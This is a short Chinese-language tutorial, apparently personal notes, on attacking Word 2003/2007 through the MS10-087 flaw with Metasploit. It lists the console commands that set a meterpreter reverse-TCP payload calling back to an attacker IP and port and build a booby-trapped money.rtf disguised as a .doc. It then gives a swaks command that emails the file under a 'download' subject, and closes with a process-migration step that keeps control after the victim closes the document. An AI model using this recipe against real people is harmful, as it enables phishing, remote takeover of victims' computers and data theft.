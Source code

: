 ## 使用msf进行攻击(使用漏洞MS10-087)
msf是一个专业的支持大多数漏洞攻击的工具
攻击目标为word2003主流版本和2007的部分版本
msfconsole进入控制台
查找ms10-087
set PAYLOAD windows/meterpreter/reverse_tcp  //设定攻击载荷为反弹TCP连接会话
set LHOST 192.168.250.162  //设置反弹连接目标IP
set LPORT 8080                          //设置反弹连接目标端口号
set FILENAME money.rtf     //创建的word文档名称为money.rtf，格式必须是rtf，一会儿我们再把它改名为.doc也是可以正常执行的。
exploit //生成带攻击代码的word文档

swaks  --to  example@example.com --from xxx@xxx.com  --ehlo freebuf.com --body hello --header "Subject: download" --attach  money.doc

对方打开word文件，根据反弹的meterpreter就可以在控制台控制对方电脑了
但是在这时关闭文档连接就断了，这里可以用
ps 查找运行的程序
mirgate [pid]
